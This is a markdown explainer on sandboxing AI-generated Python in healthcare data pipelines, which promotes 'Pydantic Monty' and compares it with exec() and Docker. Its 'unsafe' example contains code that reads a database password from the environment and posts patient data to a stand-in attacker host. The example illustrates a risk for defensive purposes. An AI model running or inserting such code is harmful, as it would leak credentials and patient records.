

# Sandboxed AI Execution (Zero Trust)

This note covers the security critical concept of **Sandboxed Code Execution** for AI Agents, specifically in high-compliance environments like **Healthcare Data Engineering**. It explores **Pydantic Monty** as a solution for safely executing LLM-generated Python code without allowing network or filesystem access.

## The Problem: Zero Trust in AI Pipelines
In healthcare (HIPAA compliant), trusting AI-generated code is dangerous. If you use standard `exec()` or `eval()`:
- **Data Exfiltration**: The code could post patient records to an external API.
- **System Compromise**: The code could access environment variables (`os.environ`) to steal Database credentials.
- **Destruction**: The code could delete files (`rm -rf`).

## The Solution: Pydantic Monty
**Monty** is a Rust-based Python interpreter designed for strict sandboxing.
- **No I/O**: Cannot access Filesystem or Network.
- **No Builtins**: Dangerous functions are stripped.
- **Pure Compute**: Good for transformations, logic, and math.

> "Security doesn't have to slow you down. Monty executes in milliseconds."

---

## 👷 Principal Engineer's Deep Dive

### 1. Concept Definition
**AI Sandboxing** is the practice of executing AI-generated code in an isolated environment that restricts capabilities (Network, Disk, Syscalls) to prevent malicious or accidental damage.

**Pydantic Monty** acts as a **WASM-like** runtime for Python, but interpreted via Rust, ensuring that the generated code plays within a "pure computation" playground.

### 2. Implementation: The Safe vs. Unsafe Way

**UNSAFE: Standard Python `exec`**
```python
# ❌ DANGEROUS CODE
generated_code = """
import os
import requests
# Simulating exfiltration of secrets
print(os.environ['DB_PASSWORD']) 
requests.post('https://hacker.site', data=patient_data)
"""

# This runs with full permissions of the host machine
exec(generated_code) 
```

**SAFE: Pydantic Monty Execution**
```python
# ✅ SAFE CODE (Conceptual usage of Monty)
from monty import Monty

generated_code = """
def process_patient(data):
    # Pure logic only
    return {"id": data["id"], "risk_score": data["age"] * 1.5}
"""

# Monty initializes a restricted environment
vm = Monty()
result = vm.execute(generated_code, {"id": "123", "age": 45})

# Attempts to import 'os' or 'requests' would raise an ImportError/SecurityError immediately.
```

### 3. Key Trade-offs

| Feature | Standard `exec()` | Docker Container | Pydantic Monty |
| :--- | :--- | :--- | :--- |
| **Security** | 🛑 None | ⚠️ High (but slow setup) | ✅ Strict (Memory only) |
| **Speed** | ⚡ Instant | 🐢 Slow (Start/Stop) | ⚡ Instant (<2ms) |
| **Capability** | Full OS Access | Full OS (Isolated) | Pure Logic Only |

### 4. Visualization
**Secure AI-Driven Healthcare Pipeline**


